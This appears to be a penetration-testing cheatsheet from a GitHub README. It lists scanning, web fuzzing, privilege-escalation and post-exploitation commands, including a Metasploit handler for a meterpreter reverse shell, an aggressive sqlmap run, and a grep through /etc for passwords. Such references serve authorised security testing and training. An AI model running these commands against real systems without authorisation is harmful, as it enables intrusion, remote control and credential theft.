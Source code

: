 # Offensive Security Cheatsheet 🚀

*"Knowledge is power. Share it wisely." - Unknown*

## 🔍 Scanning & Enumeration

### Nmap
```bash
# Basic TCP scan
nmap -sV -sC -oA scan_results <TARGET_IP>```


Masscan

```bash
# Blazing fast scan
masscan -p1-65535 <TARGET_IP> --rate=1000 -e tun0```


🕵️‍♂️ Web Enumeration

FFUF (Web Fuzzing)

```bash
# Directory brute-forcing
ffuf -w /path/to/wordlist -u http://<TARGET>/FUZZ -mc 200 -fs 4242```

```# Vhost discovery
ffuf -w subdomains.txt -u http://<TARGET> -H "Host: FUZZ.<TARGET>" -fs 0```

Gobuster

```gobuster dir -u http://<TARGET> -w /usr/share/wordlists/dirb/common.txt -x php,html```


🔑 Privilege Escalation
Linux PrivEsc

bash
```# SUID finder
find / -perm -4000 -type f 2>/dev/null```

```# Kernel exploits
uname -a; searchsploit <kernel_version>```

Windows PrivEsc

powershell
```# Service permissions
accesschk.exe /accepteula -uwcqv *```

```# AlwaysInstallElevated check
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated```


🛠️ Exploitation


Metasploit

```# Basic workflow
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <YOUR_IP>
exploit```

SQL Injection

```sqlmap -u "http://site.com/page?id=1" --risk=3 --level=5 --batch```


📦 Post-Exploitation

File Transfers

```# Python HTTP server
python3 -m http.server 8000```

```# SCP download
scp user@target:/path/to/file .```

Credential Hunting

```# Find passwords in files
grep -riE 'password|passwd|cred' /etc/ 2>/dev/null```


📚 Resources

GTFOBins

PayloadsAllTheThings

HackTricks

